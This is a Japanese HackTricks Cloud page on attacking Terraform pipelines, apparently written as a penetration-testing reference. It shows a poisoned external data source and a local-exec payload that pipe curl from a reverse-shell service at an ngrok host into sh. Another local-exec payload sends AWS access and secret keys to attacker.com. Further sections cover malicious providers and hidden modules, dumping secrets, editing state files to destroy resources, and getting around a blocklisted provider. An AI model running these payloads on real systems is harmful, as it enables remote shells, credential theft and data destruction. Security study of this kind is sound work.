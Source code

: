 # Terraformセキュリティ

<details>

{% hint style="success" %}
AWSハッキングの学習と実践:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と実践: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、または **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して、ハッキングテクニックを共有してください。

</details>
{% endhint %}

## 基本情報

[公式ドキュメントから:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraformは、人間が読み取れる構成ファイルで**クラウドとオンプレミスリソースの両方を定義**できる**インフラストラクチャコードツール**です。これらの構成ファイルをバージョン管理し、再利用し、共有できます。その後、一貫したワークフローを使用して、ライフサイクル全体でインフラストラクチャをプロビジョニングおよび管理できます。Terraformは、コンピューティング、ストレージ、ネットワーキングリソースなどの低レベルコンポーネントだけでなく、DNSエントリやSaaS機能などの高レベルコンポーネントも管理できます。

### Terraformの動作原理

Terraformは、クラウドプラットフォームや他のサービス上のリソースを、それらのアプリケーションプログラミングインターフェース（API）を介して作成および管理します。プロバイダーは、Terraformがアクセス可能なAPIを持つほとんどのプラットフォームやサービスと連携できるようにします。

![](<../.gitbook/assets/image (177).png>)

HashiCorpとTerraformコミュニティは、**1700以上のプロバイダー**をすでに作成しており、さまざまな種類のリソースやサービスを管理できます。この数は増加し続けています。Amazon Web Services（AWS）、Azure、Google Cloud Platform（GCP）、Kubernetes、Helm、GitHub、Splunk、DataDogなど、すべての公開プロバイダーは[Terraform Registry](https://registry.terraform.io/)で見つけることができます。

Terraformの主要なワークフローは次の3つのステージで構成されています:

* **記述:** 複数のクラウドプロバイダーやサービスにまたがるリソースを定義します。たとえば、セキュリティグループとロードバランサーを備えた仮想マシン上にアプリケーションを展開する構成を作成することができます。
* **計画:** Terraformは、既存のインフラストラクチャと構成に基づいて、作成、更新、または破棄するインフラストラクチャを記述した実行計画を作成します。
* **適用:** 承認されると、Terraformは提案された操作を正しい順序で実行し、リソースの依存関係を尊重します。たとえば、VPCのプロパティを更新し、そのVPC内の仮想マシンの数を変更した場合、Terraformは仮想マシンのスケーリング前にVPCを再作成します。

![](<../.gitbook/assets/image (215).png>)

## Terraformラボ

コンピュータにTerraformをインストールしてください。

こちらに[ガイド](https://learn.hashicorp.com/tutorials/terraform/install-cli)があります。また、こちらに[Terraformをダウンロードする最良の方法](https://www.terraform.io/downloads)があります。

## TerraformでのRCE

Terraformには**ウェブページやネットワークサービスを公開するプラットフォームがない**ため、terraformを侵害する唯一の方法は、**terraform構成ファイルを追加/変更できる**ことです。

ただし、terraformは**非常に敏感なコンポーネント**であり、適切に機能するためには**特権アクセス**が必要です。

攻撃者がterraformが実行されているシステムを侵害できる主な方法は、terraform構成を格納するリポジトリを侵害することです。なぜなら、ある時点でそれらが**解釈**されるからです。

実際、**PRが作成された後にterraform plan/applyを自動的に実行する**というソリューションがあります。たとえば、**Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

terraformファイルを侵害できる場合、`terraform plan`または`terraform apply`が実行されたときにRCEを実行するさまざまな方法があります。

### Terraform plan

Terraform planは、terraformで**最も使用されるコマンド**であり、開発者/terraformを使用するソリューションは常にこれを呼び出すため、`terraform plan`で任意のコマンドを実行するterraform構成ファイルを毒入れするのが**最も簡単なRCEの方法**です。

#### 外部プロバイダーの使用

Terraformは、Terraformと外部プログラムの間のインターフェースを提供する[`external`プロバイダー](https://registry.terraform.io/providers/hashicorp/external/latest/docs)を提供します。`external`データソースを使用して、`plan`中に任意のコードを実行できます。

terraform planを実行するときにリバースシェルを実行するようにterraform構成ファイルに注入することで、次のようなことができます:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### カスタムプロバイダの使用

攻撃者は[Terraform Registry](https://registry.terraform.io/)に[カスタムプロバイダ](https://learn.hashicorp.com/tutorials/terraform/provider-setup)を送信し、それをフィーチャーブランチ内のTerraformコードに追加することができます（[こちらの例](https://alex.kaskaso.li/post/terraform-plan-rce)から）。
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
プロバイダは`init`でダウンロードされ、`plan`が実行されると悪意のあるコードが実行されます。

[https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)に例があります。

#### 外部リファレンスの使用

上記のオプションはどちらも有用ですが、あまりステルス性がありません（2番目のオプションはよりステルス性が高いが、最初のものよりも複雑です）。この攻撃をより**ステルス性の高い方法**で実行することができます。以下の提案に従ってください：

* terraformファイルにrevシェルを直接追加する代わりに、revシェルを含む**外部リソースを読み込む**ことができます。
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
rev shellコードは[https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)にあります。

* 外部リソースでは、**ref**機能を使用して、リポジトリ内の**terraform rev shellコードをブランチで非表示**にします。例: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform applyを実行してすべての変更を適用します。また、[**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**を注入して**RCEを取得するために悪意のあるTerraformファイルを悪用することもできます。\
次のようなペイロードが`main.tf`ファイルに含まれることを確認するだけです:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
**前のテクニックからの提案に従って**、**外部参照を使用して**、この攻撃を**より慎重に**実行します。

## シークレットのダンプ

`terraform apply`を実行して**terraformで使用されるシークレット値をダンプ**することができます。terraformファイルに次のようなものを追加します：
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Terraform State Filesの悪用

Terraform State Filesに書き込みアクセス権があるが、Terraformコードを変更できない場合、[**この研究**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)では、ファイルを悪用するいくつかの興味深いオプションが示されています：

### リソースの削除 <a href="#deleting-resources" id="deleting-resources"></a>

リソースを破壊する2つの方法があります：

1. **実際のリソースを破壊するために、ステートファイルにランダムな名前のリソースを挿入する**

Terraformはリソースが存在しないと判断するため、それを破壊します（指定された実際のリソースIDに従って）。前のページの例：
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **更新できないようにリソースを削除するようにリソースを変更する**

EC2インスタンスの場合、インスタンスのタイプを変更するだけで、terraformが削除して再作成するようになります。

### RCE

また、[カスタムプロバイダーを作成](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider)し、terraformのステートファイル内のプロバイダーの1つを悪意のあるものに置き換えるか、悪意のあるプロバイダーを持つ空のリソースを追加することも可能です。元の研究からの例：
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## ブラックリストに登録されたプロバイダーの置き換え

`hashicorp/external` がブラックリストに登録されている場合は、以下の手順に従って `external` プロバイダーを再実装することができます。注意: https://registry.terraform.io/providers/nazarewk/external/latest で公開されている外部プロバイダーのフォークを使用しています。独自のフォークや再実装を公開することもできます。
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
その場合、通常通り `external` を使用できます。
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## 監査ツール

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsecは、Terraformコードの静的解析を使用して潜在的なミス構成を見つけます。
* [**terascan**](https://github.com/tenable/terrascan): Terrascanは、インフラストラクチャコードの静的コードアナライザーです。

## 参考文献

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
AWSハッキングの学習と実践:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と実践: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**または**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングトリックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
